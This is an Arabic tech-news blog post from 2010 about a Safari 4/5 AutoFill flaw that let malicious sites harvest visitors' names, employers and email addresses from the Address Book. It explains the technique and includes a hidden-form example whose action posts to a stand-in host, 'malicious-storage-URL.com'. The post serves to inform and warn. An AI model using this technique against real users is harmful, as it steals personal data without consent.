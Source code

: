 ```yaml
---
author: Xacker
date: 2010-07-25 12:23:35+00:00
draft: false
title: 'الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة  '
type: post
url: /2010/07/apple-safari-vulnerability/
categories:
- Apple
- Security
- متصفحات
tags:
- Apple
- Safari
- vulnerability
---
```


**[الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة](it-scoop.com/2010/07/apple-safari-vulnerability)**




تم الإعلان عن وجود خلل أمني في التصميم في متصفح Safari للإصدارين 4.0 و 5.0 يسمح للمهاجم بالحصول على بيانات شخصية خاصة بالزائر مثل (الاسم، العنوان،البريد الالكتروني، ...)




[![](safari_hacked.jpg)
](it-scoop.com/2010/07/apple-safari-vulnerability)


المشكلة الأمنية تظهر في حال قيام مستخدم ما بزيارة موقع خبيث، حتى لو لم يزره من قبل، ولم يدخل أي بيانات شخصية أيضاً، فيكون بمقدور الموقع كشف اسمه الكامل، مكان العمل، المدينة، الولاية (في حال كونه في الولايات المتحدة) بريده الالكتروني الشخصي!

يأتي متصفح Safari في الإصدارين 4.0 و 5.0 والذي يملك حوالي 4% من حصة السوق (أي تقريباً 83 مليون مستخدم)، بميزة على المسار (Preferences > AutoFill > AutoFill web forms) مفعّلة بشكل افتراضي.


[![](prefs.png  )
](https://www.it-scoop.com/wp-admin/it-scoop.com/2010/07/apple-safari-vulnerability)


هذه الميزة "AutoFill" تقوم بملء حقول الإدخال النصية في صفحات HTML والتي تحمل خصائص معينة مثل name, company, city, state, country, email, الخ.

<!-- more -->

مثال:

    
    <form>
    <input type="text" name="company"></input>
    <input type="text" name="email"></input></form>


يتم ملء هذه الحقول باستخدام بيانات من سجل المستخدمين الخاص في دفتر العناوين الخاص بنظام التشغيل المستخدم ومن المهم التذكير بأن هذه الخاصة تعمل حتى لو لم يقم المستخدم بإدخال مثل هذه البيانات من قبل لأنها مختلفة عن ميزة الإكمال التلقائي والتي يقوم المتصفح بتذكر بعض ما قمت بإدخاله مؤخراً في بعض حقول الإدخال النصية في المواقع التي تستخدمها.

كل ما يحتاج إلى القيام به أي موقع خبيث لاستخراج هذه المعلومات بمعاونة متصفح Safari هو أن يقوم بإنشاء نموذج (Form) إدخال كالمثال الذي ذكرناه، حتى لو بشكل مخفي، ومن ثم "محاكاة" نقرات المفاتيح ضمنها لإيهام المتصفح بأن المستخدم هو من يقوم بالنقر على لوحة المفاتيح. عندما يتم جلب البيانات والتي يتم ملؤها بشكل آلي، يصبح بإمكان المهاجم الوصول إليها من خلال إرسالها دون علم المستخدم إلى العنوان الذي يحدده في النموذج

    
    <form action="http://www.malicious-storage-URL.com"></form>


قام Robert Hansen المعروف بـ "RSnake" أحد الخبراء المعروفين في عالم الأمن (والذي بالتأكيد قرأتم شيئاً من كتاباته في موقع [http://ha.ckers.org](http://ha.ckers.org/)) باستضافة دليل [proof-of-concept](http://ha.ckers.org/weird/safari_autofill.html) على وجود المشكلة – لو كنت تود التجربة والإطلاع وتقلق بشأن بياناتك تستطيع تغييرها قبل زيارة الموقع من خلال Address Book كما تظهر الصورة

[![](address-book.png)
](it-scoop.com/2010/07/apple-safari-vulnerability)

وفقاً لما تذكره مدونة Jeremiah Grossman أحد الأسماء المعروفة أيضاً في عالم أمن المعلومات فإنه من حسن الحظ أن أرقام الهاتف "لسبب ما" لا يتم إظهارها بهذه الطريقة.

قمت بتجربة الدليل المنشور على موقع RSnake وفيما يلي صورة للنتائج

[![](autofill-poc.png)
](it-scoop.com/2010/07/apple-safari-vulnerability)

تجدر الإشارة إلى أن Jeremiah Grossman قد قام بإبلاغ Apple حول المشكل لكن لم يتلق سوى رد آلي على رسالته، و بعد عدم الحصول على أي رد على مراسلة ثانية قرر الكشف عن الثغرة ليسمع صوته بشكل أفضل :)

للإطلاع على المزيد من المعلومات حول الخبر يمكن مراجعة [التدوينة](http://jeremiahgrossman.blogspot.com/2010/07/i-know-who-your-name-where-you-work-and.html) الأصلية.
